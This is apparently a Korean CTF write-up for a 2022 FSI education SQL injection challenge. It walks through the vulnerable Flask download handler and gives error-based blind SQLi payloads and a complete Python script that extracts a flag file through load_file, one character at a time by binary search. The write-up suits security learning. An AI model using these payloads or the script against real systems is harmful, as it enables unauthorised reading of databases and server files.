



## 2022_fsi_edu_challs(sqli)

```
insert into users (userid, userpw)values ("admin", sha2("th1s_1s_adm111n_p4ssw0rd",256)); #admin password 가리기
insert into board (subject, content, author, loginid, filepath)values ("flag is here!","fsi2022{dummy_flag_xss}","admin","admin","flag.txt");

grant select,insert on usersto 'user'@'%';
grant select,insert on boardto 'user'@'%';
grant file on *.* to 'user'@'%';
```

init.sql을 먼저 봤다. 웹이 쓰는 DB 유저에 `grant file`이 붙어 있어 load_file을 쓸 수 있을 것으로 보였다.

```
def safeQuery(self, req):
    for keyin req.keys():
        req[key] = re.sub(r"[\"\\\|\&\[\]\!\@\#\$\%]", r'\\\g<0>', req[key])
    return req
```

다양한 기호들을 \로 이스케이프를 하는 모습이다. 따라서 safeQuery를 지나게 되면 sqli가 불가능 할 것이기에 해당 함수를 지나지 않는 파라미터를 찾아보았다.

```python
def download(self, filepath):
        if re.search(r'union|select|extractvalue|updatexml|sleep|benchmark', filepath, re.I):
            return f"download error.. invalid request"
        query= f'select loginid from fsi2022.board where filepath="{filepath}" limit 0,1'
        logging.info(f"[+] query(download) -{query}")
        result= self.doSelectQuery(query)
        if type(result)==str:
            return f"download error.."

        if len(result)>0:
            fileOwner= list(result[0].values())[0]
            logging.info(f"[+] result(download) -{fileOwner}")
        else:
            return f"select result has no data"

        if fileOwner== flask.session['userid']:
            query= f'select load_file("/upload/{filepath}")'
            with self.lock:
                self.cursor.execute(query)
                result= base64.b64decode(list(self.cursor.fetchall()[0].values())[0])
            return {'result': result}
        else:
            return f"file owner does not match"
```

이 부분에 safeQuery 구문이 없다는 것을 찾을 수 있었다. 그러나 union, select와 같은 단어들이 필터링 되고 있었다.

```
http://edu.arang.kr:9090/download?filepath=flag.txt
```

링크로 접근해 flag.txt 내용이 download 되는지 확인했으나 소유자 불일치 경고문이 떴다.



sql 구문들이 대부분 필터링이 걸려 있었기 때문에 에러를 이용해 참과 거짓을 판별하는 것을 시도해야겠다는 생각을 했다.

실제로 python 구문을 보면 경고문이 서로 다른 상황에서 나옴을 확인 할 수 있다.

```python
        if type(result)==str:
            return f"download error.."  
...
else:
            return f"file owner does not match"
```

```python
query = f'select loginid from fsi2022.board where filepath="{filepath}" limit 0,1'
```

filepath 파라미터의 값이 위와 같이 들어간다는 사실을 확인했다.

```
x" or if(조건, exp(999), 1) -- -
```

위 페이로드를 넣게되면 조건이 거짓이면 1이 반환되고 `or 1`이 되어 모든 행이 매칭돼서 파일 소유차 불일치라는 alert 구문이 뜰 것이다.

```
http://edu.arang.kr:9090/download?filepath=x" or if(1=1,exp(999),1) -- -
```



참인 경우에는 다른 에러문이 뜨는 것을 확인하였다. 즉 참과 거짓을 판별하기 좋게 세팅이 되어있다.

이를 변형하여 flag에서 한글자씩 가져와 아스키코드 값을 이진 탐색으로 찾는 과정을 거치게 되면 flag를 획득 할 수 있을 것이라고 추측해 볼 수 있다.

```python
#exploit.py
import requests

URL = 'http://edu.arang.kr:9090'
ID = PW = 'ab'
LF = "load_file('/upload/flag.txt')"

s = requests.Session()
s.post(URL + '/login', data={'userid': ID, 'userpw': PW})

def q(cond):
    r = s.get(URL + '/download', params={'filepath': 'x" or if(%s,exp(999),1) -- -' % cond})
    return 'download error..' in r.text

def find(expr):
    lo, hi = 0, 256
    while lo < hi:
        mid = (lo + hi) // 2
        if q('%s>%d' % (expr, mid)):
            lo = mid + 1
        else:
            hi = mid
    return lo

flag = ''
i = 1
while True:
    c = find('ord(substr(%s,%d,1))' % (LF, i))
    if c == 0:
        break
    flag += chr(c)
    print(flag)
    i += 1
```



성공적으로 flag를 획득 할 수 있다.

fsi2022{d01cb0cca87b55e87dc5}
